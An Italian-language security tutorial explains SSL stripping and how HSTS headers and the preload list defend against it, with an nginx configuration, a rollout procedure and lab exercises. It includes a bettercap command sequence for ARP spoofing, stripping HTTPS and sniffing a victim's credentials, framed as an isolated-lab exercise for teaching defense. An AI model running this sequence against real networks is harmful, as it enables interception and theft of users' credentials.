

TLS protegge molto bene una connessione che è già TLS. Il problema è il momento prima: l'utente digita `example.com`, il browser prova `http://` e solo dopo un redirect passa a HTTPS. Quel primo scambio è in chiaro, e chi lo controlla può far sì che il redirect non arrivi mai. È lo **SSL stripping**, e non rompe nessuna crittografia: la evita.

## Perché conta

Il certificato perfetto, la suite di cifratura moderna e il [TLS 1.3]() non servono se il client non inizia mai l'handshake. Sulla stessa rete di un hotspot, di un ufficio o dopo un [ARP spoofing]() l'attaccante vede la prima richiesta HTTP, parla con il vero server in HTTPS e serve alla vittima una versione `http://` del sito. La vittima non vede alcun errore di certificato, perché non c'è un certificato da validare: nella barra manca solo il lucchetto.

La finestra di esposizione di un browser che conosce già il sito è però limitata da HSTS. Se $t_0$ è l'ultima visita HTTPS valida e $m$ il valore di `max-age`, il browser rifiuta HTTP fino a:

$$t_{fine} = t_0 + m \qquad m = 31536000\ \text{s} = 365\ \text{giorni}$$

Ogni visita rinnova $t_0$: un utente abituale non torna mai esposto. Resta scoperto solo il **primo accesso** (*trust on first use*), che la preload list elimina.

## Come funziona



Con HSTS il server risponde, sempre via HTTPS, con `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`. Da quel momento lo user agent riscrive internamente ogni `http://example.com` in `https://` prima di toccare la rete, e blocca i click-through sugli errori di certificato (RFC 6797, §8.4–8.5). Il redirect 301 non basta: è una risposta in chiaro, quindi manipolabile.

## L'attacco

Su un lab isolato, con `bettercap` si combinano ARP spoofing e proxy HTTP con strip:

```bash
sudo bettercap -iface eth0
> net.probe on
> set arp.spoof.targets 10.0.0.20
> set arp.spoof.fullduplex true
> arp.spoof on
> set http.proxy.sslstrip true
> http.proxy on
> set net.sniff.local true
> net.sniff on
```

Per verificare cosa riceve davvero la vittima basta guardare gli header della risposta intermedia:

```bash
curl -sI http://example.com/ | grep -iE 'location|strict-transport'
```

Se `Location:` punta a `https://` il redirect è ancora manipolabile; se non c'è alcun `Strict-Transport-Security` sul sito HTTPS, il browser non ha nulla da ricordare. Gli attaccanti più evoluti registrano domini simili (`wwww.example.com`) per aggirare HSTS su host non coperti: è il motivo di `includeSubDomains`.

## La difesa

Su nginx l'header va emesso solo su HTTPS e con `always`, così è presente anche sulle risposte di errore. Il listener 80 fa soltanto il redirect:

```nginx {hl_lines=[10,11]}
server {
    listen 80;
    server_name example.com www.example.com;
    return 301 https://example.com$request_uri;
}

server {
    listen 443 ssl http2;
    server_name example.com;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_certificate     /etc/ssl/example.com.pem;
    ssl_certificate_key /etc/ssl/example.com.key;
}
```

Procedura sicura di rollout, perché `includeSubDomains` rompe ogni sottodominio ancora solo HTTP:

1. parti con `max-age=300`, verifica che tutti i sottodomini servano HTTPS;
2. sali a un giorno, una settimana, un mese, infine 31536000;
3. aggiungi `preload` e sottoponi il dominio su hstspreload.org (richiede `max-age` ≥ 1 anno e `includeSubDomains`).

Attenzione: la rimozione dalla preload list richiede mesi, quindi non è una prova reversibile. Sul lato rete, [DHCP snooping e DAI]() tolgono all'attaccante la posizione MITM in primo luogo, e il [TLS end-to-end con HSTS]() è coerente con un modello in cui la rete non è fidata.

## Lab

Nel lab con il server nginx sopra e la vittima su `10.0.0.20`:

1. Senza HSTS, avvia l'attacco con bettercap e visita il sito: osserva i link `http://` e le credenziali in `net.sniff`.
2. Abilita l'header, visita il sito una volta in HTTPS, poi riprova l'attacco digitando `example.com`.
3. Con `curl -sI https://example.com/` verifica l'header e domanda: cosa succede a un secondo browser, mai usato prima, su quella rete?


<details><summary>Soluzione</summary>
<p>1. Il proxy riscrive i link e la vittima invia la password via HTTP; <code>net.sniff</code> la mostra in chiaro.</p>
<p>2. Il browser che ha già visto l'header converte la richiesta in HTTPS prima di inviarla: bettercap non vede più una richiesta HTTP da modificare. Se l'attaccante forza un certificato falso, il browser blocca la navigazione senza opzione di bypass.</p>
<p>3. Il secondo browser non ha ancora memorizzato nulla (<em>TOFU</em>): il primo accesso resta attaccabile. Si chiude solo con la preload list, che incorpora il dominio nel browser stesso.</p>
</details>


## Conclusione

SSL stripping sfrutta il punto più debole di HTTPS: la scelta di usarlo. HSTS sposta quella scelta dal canale in chiaro al browser, e la preload list la sposta nel codice del browser, prima ancora del primo accesso. Costa un header e un rollout graduale.

**Prossimo nella serie:** altri attacchi al transport layer · [Torna alla roadmap]()
